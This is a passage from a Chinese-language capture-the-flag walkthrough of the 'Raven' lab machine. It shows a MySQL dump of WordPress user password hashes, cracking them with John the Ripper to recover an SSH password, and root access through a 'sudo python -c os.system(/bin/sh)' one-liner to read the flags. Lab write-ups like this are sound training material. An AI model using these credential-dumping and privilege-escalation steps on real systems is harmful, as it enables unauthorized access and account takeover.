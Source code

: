 ``````
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users
    -> ;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec) 
mysql> select * from wp_posts;
``````

得到flag3和flag4

flag3{afc01ab56b50591e7dccf93122770cd2} select * from wp_users

flag4{715dea6c055b9fe3337544932f2941ce} select * from wp_users /root/flag4.txt

## 0x05
暴力分解wp 密码 md5sum
john --wordlist=passwd.txt  wp_hashes.txt
 john --show wp_hashes.txt
 得到 steven:pink84
 ssh steven@192.168.56.105
 ``````
 $ id
uid=1001(steven) gid=1001(steven) groups=1001(steven)
$ sudo /usr/bin/python -c "import os;os.system('/bin/sh')"
# cd /root/
# cat flag4.txt
______

| ___ \

| |_/ /__ ___   _____ _ __

|    // _` \ \ / / _ \ '_ \

| |\ \ (_| |\ V /  __/ | | |

\_| \_\__,_| \_/ \___|_| |_|


flag4{715dea6c055b9fe3337544932f2941ce}

 ``````